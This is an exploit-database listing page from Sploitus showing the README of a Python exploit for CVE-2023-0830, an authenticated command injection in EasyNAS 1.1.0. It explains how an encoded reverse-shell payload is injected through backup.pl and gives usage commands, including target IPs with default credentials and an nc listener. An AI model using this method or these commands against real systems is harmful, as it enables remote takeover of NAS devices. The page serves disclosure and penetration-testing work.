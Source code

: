 ```yaml
---
title: Exploit for OS Command Injection in Easynas exploit
url: https://sploitus.com/exploit?id=34AE7FD3-84D3-54C7-AF16-ADAFD46E2ABD&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-30
fetch_date: 2025-10-04T11:44:18.864316
---
```


# Exploit for OS Command Injection in Easynas exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for OS Command Injection in Easynas CVE-2023-0830

2023-06-29 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=34AE7FD3-84D3-54C7-AF16-ADAFD46E2ABD
# CVE-2023-0830: EasyNAS 1.1.0 Authenticated OS Command Injection Exploit

This Python script is a powerful exploit for EasyNAS version 1.1.0 with enhanced functionality, including an integrated listener. The vulnerability exploited is a command injection flaw, which requires authentication.

The script establishes a session with the target server, then sends a login request with user-provided credentials. Upon successful authentication, the script constructs a payload that, when executed, opens a reverse shell connection to a user-specified IP and port. This payload is URL and Base64 encoded and then injected into the `backup.pl` file on the server via a crafted GET request.

## CVE: CVE-2023-0830

## Exploit Author
Ivan Spiridonov (xbz0n)
https://xbz0n.sh

## Vendor home page
[https://www.easynas.org](https://www.easynas.org)

## Features
- Integrated reverse shell listener - no need for a separate netcat process
- Automatic IP address detection for listener
- Option to use different shell types (bash, sh, python)
- Support for both HTTP and HTTPS
- Support for external listeners

## Usage

### Basic usage with integrated listener (recommended):
```bash
python3 CVE-2023-0830-v2.py 192.168.0.108:1443 admin admin
```

### Using external listener (start nc -lvnp 4444 first):
```bash
python3 CVE-2023-0830-v2.py 192.168.0.108:1443 admin admin --mode reverse --lhost 192.168.0.100 --lport 4444
```

### Options:
```
--mode {shell,reverse}    Exploitation mode: shell (integrated reverse shell) or reverse (external listener)
--lhost IP_ADDRESS        IP address for the reverse shell listener (auto-detected by default)
--lport PORT              Port for the reverse shell listener (default: 4444)
--protocol {http,https}   Protocol to use (default: https)
--verbose                 Enable verbose output
--shell {bash,sh,python}  Specify the shell type to use with integrated listener (default: bash)
```

## Dependencies
- Python 3
- Requests library

## Disclaimer
This script is for educational purposes and authorized penetration testing only. Always seek explicit permission before running any penetration tests against a network or system.

Please use responsibly.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)